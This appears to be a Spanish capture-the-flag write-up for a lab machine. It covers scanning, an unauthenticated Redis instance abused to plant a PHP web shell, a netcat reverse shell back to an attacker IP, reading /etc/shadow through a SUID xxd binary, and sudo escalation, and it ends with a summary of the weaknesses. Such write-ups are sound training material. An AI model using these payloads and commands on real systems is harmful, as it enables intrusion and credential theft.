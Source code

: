 # Res

## Initial Scan
```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
```
## Enum
### HTTP 
Lo unico que parece que tengamos aqui es un servidor apache sin mas.
### Redis 
Podemos interactuar con el servicio redis sin ningún tipo de autenticación previa

## Exploit
Vamos a intentar subir una reverse shell al servicio web usando redis
```
IP> config set dir /var/www/html
IP> config set dbfilename redis.php
IP> set test " <?php system($_GET['cmd']); ?>"
```
Tras esto accedemos a esta URL y veremos que tenemos shell como www-data, convirtamos esto en una reverse shell
```
http://10.10.105.205/redis.php?cmd=whoami
```
Comprobamos que esta netcat en la maquina objetivo
```
http://10.10.105.205/redis.php?cmd=which%20netcat
```
Y aprovechamos esto
```
http://10.10.105.205/redis.php?cmd=nc%20-e%20/bin/bash%20IP%204444
```
## Privesc
Hay 2 usuarios a tener en cuenta el root y el no estandar
```
root:x:0:0:root:/root:/bin/bash
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```
## Vianka
Hay un SUID en /usr/bin/xxd, podemos explotar esto y leer el shadow
```
/usr/bin/xxd /etc/shadow | /usr/bin/xxd -r
```
Podemos sacar el hash de la contraseña de vianka, la cual esta en rockyou.txt y con ello acceder a este usuario
## Root
```
User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
Ejecutamos lo siguiente:
```
sudo -s
```
Y ya somos root

## Analisis de la intrusion
#### Unautenticated redis conection
Podemos conectarnos al servicio redis sin autenticación previa, esto nos permitio subir una reverse shell al servidor
#### Netcat -e
La versión de netcat del servidor permite el flag -e usado para invocar una reverse shell muy facilmente
#### xxd SUID
El archivo xxd tiene un SUID que nos permitio leer el /etc/shadow
#### Bad password police
La contraseña de vianka esta en rockyou.txt lo que nos permitio elevar privilegios a este desde www-data
#### Elevated permision for vianka
Vianka puede usar cualquier comando como cualquier usuario del sistema con su contraseña

